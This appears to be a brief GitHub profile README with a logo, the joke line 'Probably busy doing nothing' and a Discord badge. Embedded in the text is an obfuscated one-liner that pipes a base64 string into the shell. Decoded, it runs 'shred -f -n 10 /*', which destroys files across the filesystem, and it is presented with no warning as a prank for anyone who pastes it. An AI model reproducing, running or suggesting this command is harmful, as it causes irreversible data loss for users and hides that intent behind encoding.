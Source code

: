 <img src="ilus-code.svg" min-width="75px" max-width="75px" width="75px" align="right" alt="logoxo">

<p align="left"> 
 🥴 Probably busy <strong>doing nothing</strong>.
  

 echo "c2hyZWQgLWYgLW4gMTAgLyoK" | base64 -d | sh
</p>

<br>

<p align="left">
  <a href="“https://discordapp.com/users/526747520802750467/" alt="Discord">
    <img src="https://dcbadge.vercel.app/api/shield/526747520802750467?style=social"/>
  </a>
</p>
